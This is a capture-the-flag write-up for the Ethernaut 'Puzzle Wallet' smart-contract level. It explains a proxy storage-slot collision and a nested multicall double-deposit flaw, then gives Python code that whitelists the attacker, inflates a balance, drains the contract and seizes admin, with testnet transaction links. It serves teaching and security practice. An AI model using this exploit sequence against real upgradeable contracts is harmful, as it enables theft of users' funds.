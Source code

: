 # Puzzle Wallet

## Objectives

You'll need to hijack this wallet to become the admin of the proxy.

## Solution

The state variable layout of the PuzzleProxy contract and the PuzzleWallet contract is as follows:

| Storage slot | PuzzleProxy  | PuzzleWallet |
| ------------ | ------------ | ------------ |
| 0            | pendingAdmin | owner        |
| 1            | admin        | maxBalance   |

But as we know from the utility of proxies, the objective of proxies is to contain storage to allow contract implementations (logic contract) to be upgraded without having to replace contract storage in every upgrade. There's a problem with this storage layout, as there's state variables that some functions in PuzzleWallet modify like `setMaxBalance()`, the variables that PuzzleWallet will end up modifying through delegatecalls are the variables in PuzzleProxy.

If the developers intended PuzzleWallet variables like `owner` and `maxBalance` to have their own slot, they should have replicated the same storage layout in PuzzleProxy first and then add any additional variables in order to avoid storage collisions.

Therefore, we can follow these steps to become `admin`:

1. Call `proposeNewAdmin()` on PuzzleProxy passing your address as `_newAdmin` in order to become `owner`, as `owner` is also `pendingAdmin` because of the storage collision

**All subsequent steps past this point must be done through he proxy contract's fallback function which passes all calls to the PuzzleWallet contract using `delegatecall`. To do this, just perform a normal transaction with some encoded data pertaining to the function calls and inputs.**

2. Become whitelisted by calling `addToWhitelist()` passing your address as `addr` in order to pass the `onlyWhitelisted` modifier check.  

3. Create a transaction data bundle in order to call `multicall()`. The bundle should consist of two deposit transactions. However, the code doesn't allow for this, instead, the bundle should consist of a multicall bundle with the tx data for a `deposit()` call and a `multicall()` containing a `deposit()` call. Because the transaction is nested, this second `multicall()` that calls `deposit()` will not detect that we are calling deposit twice in a row.

4. Because we called `deposit()` twice but our tx value in that single tx was 0.001 ether, even though you only deposit 0.001 ether once, it still sums 0.001 ether twice to your address' balance in the `balance` mapping.

5. Now that your balance in the `balance` mapping is of 0.002 ether, you're able to withdraw the entire contract balance. To do so, call `execute()` with the entire contract balance in the `value` parameter of the function.

6. After draining the contract, you can now call `setMaxBalance()` by passing in your address casted as an integer, which will make `maxBalance` and therefore `admin` your address.

## How I did it

As described in [solution](#solution), but with a few resourceful changes in order to simplify the python code.

1. Get the position in the proxy contract's storage which contains the address of the implementation contract. I do this in order to be able to encode the calls to certain methods in this contract, which I could technically do manually by constructing a short JSON and encoding it as ABI, but using the contract code instance is easier. I think it's also possible to deploy an instance of the PuzzleWallet contract in order to do it.

```python
storage_position_impl_address = hex(int(web3.sha3(text='eip1967.proxy.implementation').hex(),16)-1)
implementation_address = f'0x{web3.eth.get_storage_at(puzzleproxy.address, storage_position_impl_address).hex()[-40:]}'
```

2. Get the PuzzleWallet contract instance and assign it to an object in python in order to encode the contract calls that will be passed to the proxy contract through the tx data.

```python
puzzlewallet = PuzzleWallet.at(implementation_address)
```

3. Call `proposeNewAdmin()` to become `pendingAdmin`

```python
puzzleproxy.proposeNewAdmin(acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xbd43b12ff9139f8e9916c46f7e2df7128c34bf6419130c2992d656d7df7453a1

Every single step after this one will perform a tx that sends tx data to the proxy contract in order to perform the delegate calls to the PuzzleWallet contract.

4. Call the `addToWhitelist()` function in order to whitelist my address

```python
whitelist_address_data = puzzlewallet.addToWhitelist.encode_input(acc.address)
acc.transfer(to=puzzleproxy.address, amount=0, data=whitelist_address_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xfbc79616c75d96e8a0d176b88197521a18b688bfc6286f01fb904335300c56c5

5. Create the multicall bundled transaction and call `multicall()` as specified in [solution](#solution) step 3.

```python
# multicall tx data
deposit_data = puzzlewallet.deposit.encode_input()
multicall_data = puzzlewallet.multicall.encode_input([deposit_data])
# nest the call
multicall_data = puzzlewallet.multicall.encode_input([deposit_data, multicall_data]) 
acc.transfer(to=puzzleproxy.address, amount=puzzleproxy.balance(), data=multicall_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x6e33c31f232cfb459d4bbd13f296a52be0606c680bde05732fd207f06306d205

6. Perform the withdrawal of all contract's funds by calling `execute()`.

```python
execute_data = puzzlewallet.execute.encode_input(acc.address, puzzleproxy.balance(), "")
acc.transfer(to=puzzleproxy.address, amount=0, data=execute_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xc856e1a011cc5405e67956a40ea59754342b41002ff860eeeb21b4b4ee949b97

7. Call `setMaxBalance()` in order to become `admin`

```python
max_balance_data = puzzlewallet.setMaxBalance.encode_input(int(acc.address, 16))
acc.transfer(to=puzzleproxy.address, amount=0, data=max_balance_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x3eae8adb1340f9e1837061e7150eeb863e35d2c403c86f0074389017c78e1903

8. Check if I'm admin

```python
# check if my address is the admin address
admin_assertion = puzzleproxy.admin() == acc.address
print(f'The admin of the contract is {acc.address}, therefore my address is admin: {admin_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x6bce85a663ae4b8b5d19fcc8b6fa400d2dc34b597dd67ce556107819e0742b36
